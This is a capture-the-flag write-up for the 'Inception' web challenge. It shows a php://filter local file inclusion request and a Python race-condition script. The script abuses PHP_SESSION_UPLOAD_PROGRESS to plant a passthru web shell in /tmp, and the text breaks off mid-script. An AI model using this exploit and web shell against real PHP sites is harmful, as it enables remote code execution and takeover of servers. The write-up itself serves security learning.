 <a name="inception"></a>
# Inception (496) - web

Description:
```
We need to go deeper! Server: http://inception.ga

Author: Ionut Cernica
```

LFI in the login POST request:

```
POST /?p=php://filter/convert.base64-encode/resource=auth.php HTTP/1.1
Host: inception.ga
Content-Length: 21
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://inception.ga
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inception.ga/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=s&password=b
```

We check to see if the web site is vulnerable to PHP_SESSION_UPLOAD_PROGRESS, and indeed it is.

This is the python script that creates the session with the payload:

```python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool

HOST = 'http://inception.ga/'
sess_name = 'iamkaibro2'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = """
Testok<?php $c=fopen('/tmp/g','w');fwrite($c,'<?php passthru($_GET["f"]);?>');?>Testend
"""

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': payload
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
```